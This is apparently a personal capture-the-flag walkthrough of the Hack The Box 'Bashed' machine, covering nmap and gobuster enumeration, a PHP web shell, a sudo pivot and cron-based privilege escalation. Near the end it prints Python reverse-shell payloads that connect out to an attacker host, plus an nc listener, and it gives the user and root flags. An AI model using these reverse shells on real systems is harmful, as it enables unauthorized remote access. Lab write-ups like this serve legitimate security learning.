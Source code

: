# Tasks

[**How many open TCP ports are listening on Bashed?**](#task-1)

[**What is the relative path on the webserver to a folder that contains phpbash.php?**](#task-2)

[**What user is the webserver running as on Bashed?**](#task-3)

[**User Flag**](#user-flag)

[**www-data can run any command as a user without a password. What is that user's username?**](#task-5)

[**What folder in the system root can scriptmanager access that www-data could not?**](#task-6)

[**What is filename of the file that is being run by root every couple minutes?**](#task-7)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gobuster

# Skills Used

- Directory fuzzing
- Python scripting (script kiddie moment tho lmao)

# Solutions

## Task 1

I did this first:

```
nmap -sCV [IP Address]
```

Only port 80 showed:

![image](https://github.com/user-attachments/assets/fbfc0cb3-eeed-447c-86f6-5fcce1245392)

So, considering it was only port 80 (which was strange), I tried using the ``-sS`` flag to show all TCP ports.

It was the same thing :///

**Answer: 80**

## Task 2

_Gobuster_ time:

```
gobuster dir -u http://[IP Address] -w /usr/share/dirb/wordlists/common.txt -x php
```

Also, you can use other wordlists if you like, and maybe include other file extensions.

![image](https://github.com/user-attachments/assets/d233af5b-05a6-4c3b-b7e8-209ab2cb79f8)

After that, I checked each directory one-by-one (yes I know, it's inefficient, but I forgot what the command was to recursively search endpoints lmao).

I found it here in _/dev_:

![image](https://github.com/user-attachments/assets/10525665-1438-4bbd-8729-aa6fcfb10c67)

**Answer: /dev**

## Task 3

Naturally, I got curious as to why we want to see ```phpbash.php```:

![image](https://github.com/user-attachments/assets/09c6df72-8ce9-45eb-997d-fe2c968fbfeb)

Apparently it really was a bash lmao.

Anyways, apparently I'm either blind or retarded lmao, I misread the task as "find the name of the webserver on Bashed", when I just needed to find the _user_ ://

It was one of the first commands I ran too:

![image](https://github.com/user-attachments/assets/36dca046-6585-4d1f-a557-c0b4d97a2807)

See ://

**Answer: www-data**

## User Flag

Here you go:

![image](https://github.com/user-attachments/assets/6964a817-0da7-4aaa-97ef-03760a56bd61)

**Answer: c9097fe5a29264941a6b3a7798018454**

## Task 5

Simple ```sudo -l``` will do:

![image](https://github.com/user-attachments/assets/0a689431-444f-40cc-baeb-120a7b783399)

**Answer: scriptmanager**

## Task 6

Simple ```ls -l``` will do (no need for ```-a``` since we don't need to see hidden files here, just permissions):

![image](https://github.com/user-attachments/assets/4f9193c8-712f-4b6f-ae9a-403f37a02cdf)

**Answer: scripts**

## Task 7

Ok so, I looked at the official writeup and it made me notice that I can run any command as _scriptmanager_, which I kinda overlooked lmao.

So anyways, I switched to that user real quick with this:

```
sudo -u scriptmanager bash -i
```

That way, I can do more stuff.

Or at least, I would've if it'd let me ://

So instead, I just used ```cat``` as _scriptmanager_ lmao.

![image](https://github.com/user-attachments/assets/a1a9bc3e-e027-4b38-8075-56bb20221c05)

So, supposedly this was the file that was being executed every few minutes, but I don't actually have proof now do I.

So now, I'm gonna go look for proof...

![image](https://github.com/user-attachments/assets/a055dacf-0118-4895-8dc3-930876ac3ba2)

I found proof :D, test runs every 6 minutes (if I'm reading it right).

Embarassingly, I forgot cronjobs were not daemons lmao.

**Answer: test.py**

## Root Flag

So I've been stuck on this for wayyyyy to long, cuz I forgot to establish an inital reverse shell that was more interactive than the web shell given to us by _phpbash.php_.

Basically, here's what I did to finally get out of that roadblock:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(([IP Address],[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Real simple right?

Yeah I forgot to do that lmao, now that I did tho, I can use the _scriptmanager_ user properly.

Anyways, on my main machine, I was listening for the request via:

```
nc -lvnp [Port]
```

So now, I can finally do this:

![image](https://github.com/user-attachments/assets/bfc89e88-06af-4a97-beca-0c23cde01eba)

Now that it's interactive, I can establish a shell as _scriptmanager_, FINALLY.

Anyways, now we gotta tweak that _test.py_ file to establish a reverse shell, so since we already used a python script to establish that, we may as well reuse that and just change the port to a different one.

**P.S.** In the [**revshell generator**](https://www.revshells.com/), be sure to set the shell to _/bin/sh_ (that's what worked for me).

Here's the exact scripts just for future reference:

```
import socket,subprocess,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```

Also now that I look at it properly, you can probably get away with not importing ```subprocess``` since we're not using it to get a shell anyway lol.

Anyways, after a wee bit of waiting (and after partially [stabilizing](https://medium.com/@varunrajamirtharaj/stabilizing-a-shell-getting-a-fully-functional-tty-31232897f2f5) my interactive shell to use _nano_), I finally got what I wanted.

![image](https://github.com/user-attachments/assets/8087966f-ab6f-4c90-be3d-9b61f293f0b5)

That honestly took wayyyy too long (even with writeups lmao), but it was still pretty fun regardless.

**Answer: b48a1c0925f34e00d21827778ddc9a26**
